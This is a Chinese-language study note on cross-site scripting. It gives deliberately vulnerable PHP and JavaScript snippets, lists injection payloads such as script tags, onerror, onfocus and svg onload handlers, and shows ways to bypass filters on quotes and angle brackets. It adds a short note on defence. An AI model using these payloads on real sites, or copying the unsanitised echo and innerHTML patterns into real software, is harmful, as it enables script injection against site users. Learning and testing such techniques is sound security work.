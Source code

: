 ## 了解
>XSS（Cross-site scripting） 就代表著攻击者可以在其他人的网站上面执行JavaScript 程序。
```php
<?php
 echo "Hello, " . $_GET['name'];
?>
```
如果访问的是 `index.php?name=<script>alert(1)</script>` 呢？输出的内容就会变成：Hello，`<script>alert(1)</script>`
`<script>`标签里的内容将被视为JavaScript代码来执行，屏幕上会弹出一个提示窗口，这意味着可以在其他人的网站中执行JavaScript代码。

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
通过`index.html?name=<script>alert(1)</script>`的方式可以插入任何我们想要的内容，但这次是通过前端使用`innerHTML`的方式将我们的 payload 添加到页面上。
两者之间的区别在于前面的例子实际上不会触发`alert`，原因是在使用`innerHTML`时，插入的`<script>`标签没有效果，因此攻击者必须调整XSS payload才能执行代码。


- localStorage :
- Cookie：`cookieStore` API / document.cookie /fetch()与其他api交互

## 执行js的方式
1. `<script>alert(1)</script>`
2. `Inline event handle` 在HTML元素中内联（内嵌）的事件处理程序
	1. `<img src="not_exist" onerror="alert(1)">`
	2. `<button onclick="alert(1)">拜託點我</button>`
	3. `<svg onload="alert(1)">`
	4. `<svg/onload=alert(1)>`  
		1. html属性中`"`非必要，没有空格就可以拿掉
		2. 标签跟属性间的空格可以用`/`替代
3. `<a href=javascript:void(0)>Link</a>`

### 常用的event handler
1. onerror
2. onload
3. onfocus
4. onblur
5. onanimationend
6. onclick
7. onmouseenter

## 常见情景

### 注入html
> 直接給你一塊空白的 HTML 讓你去操作，因此可以直接寫入任何想要的元素
```php
<?php
 echo "Hello, <h1>" . $_GET['name'] . '</h1>';
?>
```

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
`<script>alert(1)</script>`
#### 防御
>把使用者輸入中的 `<` 跟 `>` 全部取代掉，它就沒有辦法插入新的 HTML 標籤，就沒辦法做到任何事情。


### 注入属性
```html
<div id="content"></div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const clazz = qs.get('clazz')
  document.querySelector('#content').innerHTML = `
    <div class="${clazz}">
      Demo
    </div>
  `
</script>
```
輸入的內容是做為某個屬性的值，被包在屬性裡面的：
我们可以使用`"<script>alert(1)</script>`来闭合标签，再插入js语句
```html
<div class=""><script>alert(1)</script>  
Demo  
</div>
```

#### `<>`被过滤
`" tabindex=1 onfocus="alert(1)" x="`
闭合`”`后使用event handler
```html
<div class="" tabindex=1 onfocus="alert(1)" x="">
  Demo
</div>
```

#### `' " `被过滤
>通过空格和`/`新增属性
```html
document.querySelector('#content').innerHTML = `
  <div class=${clazz}>
    Demo
  </div>
```
payload:
`/onclick=alert(1)`
```html
<div class=12 / onclick=alert(1)>
  Demo
</div>
```
### 注入javascript
```html
<script>
  const name = "<?php echo $_GET['name'] ?>";
  alert(name);
</script>
```

#### `"`过滤
`</script>` 闭合标签，再注入其他标签

#### ``<>"'`过滤
如果在輸入裡面加一個空行，就會因為換行導致整段程式碼無法執行，出現 `SyntaxError`

```html
<script>
  const name = `
    Hello,
    <?php echo $_GET['name'] ?>
  `;
  alert(name);
</script>
```
此时可以用`${alert(1)}` 的方式來注入 JavaScript 程式


## 参考链接
1. https://web.archive.org/web/20100723152801/http://blogs.msdn.com/b/dross/archive/2009/12/15/happy-10th-birthday-cross-site-scripting.aspx
2. https://owasp.org/www-pdf-archive/OWASP-AppSecEU08-Dabirsiaghi.pdf
3. https://github.com/mandatoryprogrammer/xsshunter-express
4. https://hackerone.com/reports/948929
5. [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)